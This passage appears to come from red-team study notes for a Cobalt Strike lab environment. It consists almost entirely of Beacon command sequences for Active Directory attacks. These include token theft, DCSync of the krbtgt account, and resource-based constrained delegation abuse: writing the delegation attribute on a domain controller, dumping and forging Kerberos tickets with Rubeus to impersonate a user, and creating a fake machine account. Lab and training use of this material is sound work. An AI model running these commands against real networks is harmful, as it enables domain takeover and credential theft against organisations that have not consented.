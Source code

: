```powershell

6. Access the services
beacon> steal_token 5540
beacon> ls \\dc-2.dev.cyberbotic.io\c$
beacon> dcsync dev.cyberbotic.io DEV\krbtgt
```
### Resource-Based Constrained Delegation (Systems having writable msDS-AllowedToActOnBehalfOfOtherIdentity)
```powershell
1. Identify the Computer Objects which has AllowedToActOnBehalfOfOtherIdentity attribute defined
beacon> execute-assembly C:\Tools\ADSearch\ADSearch\bin\Release\ADSearch.exe --search "(&(objectCategory=computer)(msDS-AllowedToActOnBehalfOfOtherIdentity=*))" --attributes dnshostname,samaccountname,msDS-AllowedToActOnBehalfOfOtherIdentity --json

2. OR, Identify the Domain Computer where we can write this atribute with custom value
beacon> powerpick Get-DomainComputer | Get-DomainObjectAcl -ResolveGUIDs | ? { $_.ActiveDirectoryRights -match "WriteProperty|GenericWrite|GenericAll|WriteDacl" -and $_.SecurityIdentifier -match "S-1-5-21-569305411-121244042-2357301523-[\d]{4,10}" }

beacon> powershell ConvertFrom-SID S-1-5-21-569305411-121244042-2357301523-1107

3. Next we will assign delegation rights to our computer by modifying the attribute of target system
beacon> powerpick Get-DomainComputer -Identity wkstn-2 -Properties objectSid
beacon> powerpick $rsd = New-Object Security.AccessControl.RawSecurityDescriptor "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;S-1-5-21-569305411-121244042-2357301523-1109)"; $rsdb = New-Object byte[] ($rsd.BinaryLength); $rsd.GetBinaryForm($rsdb, 0); Get-DomainComputer -Identity "dc-2" | Set-DomainObject -Set @{'msDS-AllowedToActOnBehalfOfOtherIdentity' = $rsdb} -Verbose

4. Verify the updated attribute
beacon> powerpick Get-DomainComputer -Identity "dc-2" -Properties msDS-AllowedToActOnBehalfOfOtherIdentity

5. Get the TGT of our computer
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe triage
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe dump /luid:0x3e4 /service:krbtgt /nowrap

6. Use S4U technique to get TGS for target computer using our TGT
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe s4u /user:WKSTN-2$ /impersonateuser:nlamb /msdsspn:cifs/dc-2.dev.cyberbotic.io /ticket:doIFuD[...]5JTw== /nowrap

7. Access the services
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:DEV /username:nlamb /password:FakePass /ticket:doIGcD[...]MuaW8=

beacon> steal_token 4092
beacon> ls \\dc-2.dev.cyberbotic.io\c$

8 Remove the delegation rights
beacon> powerpick Get-DomainComputer -Identity dc-2 | Set-DomainObject -Clear msDS-AllowedToActOnBehalfOfOtherIdentity

OR, Create Fake computer Account for RBCD Attack

9. Check if we have permission to create computer account (default allowed)
beacon> powerpick Get-DomainObject -Identity "DC=dev,DC=cyberbotic,DC=io" -Properties ms-DS-MachineAccountQuota

10. Create a fake computer with random password (generate hash using Rubeus)
beacon> execute-assembly C:\Tools\StandIn\StandIn\StandIn\bin\Release\StandIn.exe --computer EvilComputer --make
```